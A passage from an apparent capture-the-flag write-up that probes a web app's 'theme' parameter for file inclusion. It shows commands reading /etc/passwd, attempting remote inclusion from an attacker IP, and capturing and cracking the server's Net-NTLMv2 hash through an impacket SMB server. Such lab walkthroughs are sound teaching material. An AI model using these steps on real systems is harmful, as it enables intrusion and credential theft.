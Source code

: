 Testing `theme` parameter

LFI not possible because server script appending `/header.inc` in the end of the path.
```bash
❯ python rfi.py '/etc/passwd'
<!-- [2] file_get_contents(/etc/passwd/header.inc): failed to open stream: No such file or directory
```

RFI over `http://` wrapper is disabled.
```bash
❯ python rfi.py 'http://10.10.15.71'
<!-- [2] include(): http:// wrapper is disabled in the server configuration by allow_url_include=0
```

When try to connect to smb server, 
```bash
❯ impacket-smbserver -smb2support smb .
```
it return "failed to open stream" but smb server get authentication request.

![](/assets/img/posts/proper/smb-auth.png)

That means server is trying to connect to the smb server with credentials.

this is a Net-NTLMv2 hash and cracked with rockyou.txt

![](/assets/img/posts/proper/john-ntlm-hash.png)
